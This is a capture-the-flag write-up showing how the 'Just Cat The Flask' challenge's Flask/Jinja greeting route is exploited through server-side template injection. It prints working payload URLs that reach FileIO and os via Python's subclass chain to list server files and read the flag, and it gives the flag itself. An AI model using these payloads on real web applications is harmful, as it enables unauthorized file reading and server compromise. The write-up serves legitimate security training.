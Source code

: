 # Just Cat The Flask 1/2

### Text: https://bluehens-cat-the-flask.chals.io/greeting/hi

Try this link if above is down again.

https://bluehens-cat-the-flask-patched.chals.io/greeting/hi

-ProfNinja and DaveTheDaemonSlayer

&nbsp;

Score: 100

## Writeup

In this challenge you are given a link to a vulnerable website. When you first go to the link you are given a friendly greeting

```
Welcome hi!
```

When going to the base url https://bluehens-cat-the-flask.chals.io/ you are given a usage message.

```
USAGE: /greeting/:name
```

So whatever you put in the url will be displayed as text. We know that the server is running on Flask. Flask uses the Jinja library to render templates. We can check this by entering {{1+1}} in the url. 

```
Welcome 2!
```

You can see that we got the output 2. Great we know that the website is vulnerable to a url injection. From the description of the challenge we are most likely going to have to print out the flag on the system. The challenge is now how do we execute a shell command here. Unfortunately you cannot import libraries and call python functions inside of the template... or can you. One thing that we can input into the template is a string. In python a string is an object which means that we can access the class of the string. From there we can get the base class of the string class which is the object class. From this we can access any class using the \_\_subclasses\_\_ method. 

Command to see all classes we have access to
```
'abc'.__class__.__base__.__subclasses__() 
```

Output
```
Welcome [<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>, <class 'function'>, <class 'mappingproxy'>, <class 'generator'>...
```

Now that we have all of the classes we just need to find one that can read in a file. One of these is the IOBase class. This class contains the FileIO class which we can use to read out a file.

```
'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]('flag.txt').read()
```

Unfortunately this does not work and we get the error

```
FileNotFoundError
FileNotFoundError: [Errno 2] No such file or directory: 'flag.txt'
```

We have found another problem that we have to find the flag first. Using the same method described one way to print out a directory is with using the os module. One class that we have access to that contains the sys module is the warnings.catch_warnings class. Now we just need to find where the sys package is.

```
https://bluehens-cat-the-flask.chals.io/greeting/%7B%7B'abc'.__class__.__base__.__subclasses__()[222].__init__.__globals__['sys'].modules['os'].listdir()%7D%7D
```

```
Hi ['sum_suckers_creds', 'flag1.txt', 'requirements.txt', 'chall.py']!
```

All we have to do now is to use the previous input to read in the flag.

```
https://bluehens-cat-the-flask.chals.io/greeting/%7B%7B'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]('flag1.txt').read()%7D%7D
```
```
Hello b'UDCTF{l4y3r_1_c0mpl3t3_g00d_luck_w1th_p4rt_2}\n'!
```


## Flag: UDCTF{l4y3r_1_c0mpl3t3_g00d_luck_w1th_p4rt_2}